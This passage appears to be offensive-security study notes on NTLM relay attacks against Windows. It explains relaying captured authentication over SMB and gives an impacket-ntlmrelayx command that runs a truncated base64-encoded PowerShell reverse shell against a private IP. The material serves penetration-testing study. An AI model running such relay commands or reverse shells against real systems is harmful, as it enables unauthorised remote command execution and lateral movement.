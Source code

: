 The idea now is to relay an NTLM info to another windows
service. We can do this when we gain access to a user account in a
machine, and we want to use its NTLM hash in another machine. If
the relayed authentication is from a user with local administrator
privileges, we can use it to authenticate and then execute
commands over SMB with methods similar to those used by psexec or
wmiexec.

We can perform this attack using ~ntlmrelayx~. Notice here is that
~-t~ refers to the target we're relaying the NTLM hash to, while ~-c~
is for the command to execute. In this case we're executing a
powershell reverse shell that was encoded in base64.

```bash
impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.50.212 -c "powershell -enc JABjAGwAaQBlAG4AdA..."
```
